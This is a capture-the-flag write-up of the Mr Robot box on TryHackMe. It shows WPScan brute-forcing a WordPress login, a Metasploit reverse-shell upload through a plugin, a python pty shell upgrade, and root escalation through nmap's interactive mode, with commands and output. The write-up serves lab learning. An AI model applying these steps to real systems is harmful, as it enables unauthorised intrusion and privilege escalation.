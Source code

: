 ```yaml
---
layout: post
title: "Mr Robot Vulnhub/Tryhackme"
date: 2020-10-01
categories: CTF
permalink: /MrRobot
---
```

## Mr Robot Vulnhub/TryHackMe

Based on the show, Mr. Robot.

This VM has three keys hidden in different locations. Your goal is to find all three. Each key is progressively difficult to find.

Mr Robot CTF is available as either a vulnhub download VM or as a room on TryHackMe. I initially attacked this box while in chat with some friends but I am going through it again on TryHackMe for the purpose of this write up. I won't be putting the keys in this write up. If you'd like to know the keys, following along and do the box for yourself!

I first deployed the box and was given the address 10.10.41.78. We will do a simple nmap scan to find open ports.

```
PORT    STATE  SERVICE
22/tcp  closed ssh
80/tcp  open   http
443/tcp open   https
```

We can see a web server is running on the box. It's a pretty cool Mr Robot site they've built, but there is nothing of interest to us on the actual site. We can do a quick dirsearch to see if we find anything interesting.

Two interesting things pop out pretty quickly: robots.txt and wp-login.php

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

So we've found our first key, and a dictionary file of passwords. Time to brute force that wordpress login.

We can go to the wordpress login page and try a couple obvious user names to see if anything is a match. Admin, mrrobot, etc. Most names will give you the following error: ERROR: Invalid username. Lost your password?, but after trying the username 'elliot' you'll be greeted with the following message: ERROR: The password you entered for the username elliot is incorrect. Lost your password?

This verifies that elliot is a valid username, and most likely the one we are looking to break. We can run sort and uniq on the password file to remove any duplicates, which takes it from over 800,000 entires down to around 11,000.

```
sort fsocity.dic | uniq > newfs.dic
```

We can now use WPScan to brute force the password, with the following command

```
wpscan --url http://10.10.41.78/ -U elliot -P ./newfs.dic

[+] Performing password attack on Xmlrpc Multicall against 1 user/s
Progress Time: 00:00:00 <==============================================> (0 / 0) 100.0% Time: 00:00:00
[SUCCESS] - elliot / ER28-0652                                                                                                                             
All Found
```

We can now use metasploit to upload a reverse shell via a wordpress plugin using unix/webapp/wp_admin_shell_upload.

```
set RHOST 10.10.41.78
set PASSWORD ER28-0652
set USERNAME elliot

[*] Started reverse TCP handler on 10.0.2.15:4444 
[-] Exploit aborted due to failure: not-found: The target does not appear to be using WordPress
[*] Exploit completed, but no session was created.
```

After stumbling with this a few times, a friend showed me a page discussing the same error and a possible solution. Setting WPCHECK to false will bypass verifying if it is a valid wordpress install.

Once into our meterpreter session, we can go to the home directory and find robot user directory. There we will find the following files.

```
100400/r--------  33    fil   2015-11-13 07:28:21 +0000  key-2-of-3.txt
100644/rw-r--r--  39    fil   2015-11-13 07:28:21 +0000  password.raw-md5

meterpreter > cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

After cracking the password we can upgrade to the robot user using su.

```
su -l robot
su: must be run from a terminal
```

This is a common problem you might run into with meterpreter. We can upgrade our terminal using this simple python one-liner.

```
python -c 'import pty; pty.spawn("/bin/bash")'
$ su -l robot
```

We can now read key-2-of-3.txt and proceed to privesc for the third key. A quick check will show that an older version of nmap is installed on the system, and nmap runs with root privileges. We can start this version of nmap in an interactive shell, and then drop out to a root shell from there.

```
$ nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h  for help
nmap> !sh
!sh
#
```

We can now go to the root directory, where we will find key-3-of-3.txt and finish the box.

Overall this box was a lot of fun, and I learned a lot about using WPScan and solving difficulties with Metasploit exploits not working as expected. I also transitioned from Parrot back to Kali, as I've encountered numerous issues with things not working correctly in Parrot.
